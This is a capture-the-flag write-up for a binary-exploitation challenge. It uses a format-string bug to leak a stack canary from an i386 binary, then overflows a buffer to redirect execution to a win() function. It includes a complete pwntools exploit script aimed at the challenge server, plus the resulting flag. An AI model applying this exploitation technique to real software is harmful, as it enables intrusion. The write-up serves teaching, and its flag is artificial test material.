 ```yaml
---
description: A small spin on the canary problem.
---
```


# findme

{% file src="../../.gitbook/assets/findme.zip" %}

This challenge is very similar to the _canary_ challenge so we will skip the parts explaining the underlying theory. The goal of this problem is not only to provide more practice but also to show the speed at which these binaries can be exploited.

If you can go from nothing to an attack vector to an exploit for most problems in no more than 30 minutes, you're on the right track to succeed.

### Static Analysis

If we check the security, we notice that there is clearly a canary present.

```bash
$ checksec ./findme
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/04-canaries/findme/src/findme'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We notice that the functions that aren't part of the STL are `main()`, `read_in()`, and `win()`.

* `main()` calls `read_in` and then returns.
* `win()` calls `system()` and then returns.

That leaves `read_in`. We notice the following:

* The canary is stored at `ebp-0xc`.
* There is a format string bug at `read_in+116`.
* We start writing at `ebp-0x48`.

Moving to the `gets` call that supplies the input to the format string vulnerability, we can quickly get the offset to the canary:

```as
gef➤  x/20wx $esp
0xffffd550:	0xffffd560	0x00000014	0x00000000	0x080491d2
0xffffd560:	0x00000000	0x00000000	0x01000000	0x0000000b
0xffffd570:	0xf7fc4540	0x00000000	0xf7c184be	0xf7e2a054
0xffffd580:	0xf7fbe4a0	0xf7fd6f80	0xf7c184be	0xf7fbe4a0
0xffffd590:	0xffffd5d0	0xf7fbe66c	0xf7fbeb20	0xbc53b400
```

We see the canary is at the 19th offset on the stack. If we want to do this mathematically, the canary is at `ebp-0xc`, and the stack pointer is at `esp`. We can do this math inside `gdb`:

```as
gef➤  p/x $esp
$3 = 0xffffd550
gef➤  p/x $ebp-0xc
$4 = 0xffffd59c
gef➤  python print((0xffffd59c-0xffffd550)/4)
19.0
```

The reason that we divide by four is that each address is four bytes long.

### Crafting the Payload

From here, we know what the payload is going to look like.

1. The first time around: send the format string to leak the canary.
2. The second time around: pad to the canary, write the canary, then pad to the return address, and overwrite the return address.

Let's make this happen.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = remote('vunrotc.cole-ellis.com', 4300)

# get the line of data
print(proc.recvline())

# payload round 1: leak the canary
proc.sendline(b'%19$p')
print(proc.recvuntil(b', '))
leak = int(proc.recvuntil(b'!')[:-1].decode(), 16)
print(proc.recvuntil(b':'))

print("Canary leaked:", hex(leak))

# payload round 2: buffer overflow
payload = b''
payload += b'A' * 40
payload += p32(leak)
payload += b'B' * 12
payload += p32(0x080492b9)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

Running the exploit gets us the flag:

```bash
$ python3 exploit.py
b'Enter your username.\n'
b'Hi, '
b' Enter your password:'
Canary leaked: 0xf604b100
[*] Switching to interactive mode
 flag{combining_techniques_is_essential}
/home/ctf/runner.sh: line 5:    27 Segmentation fault      (core dumped) ./findme
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 4300
```
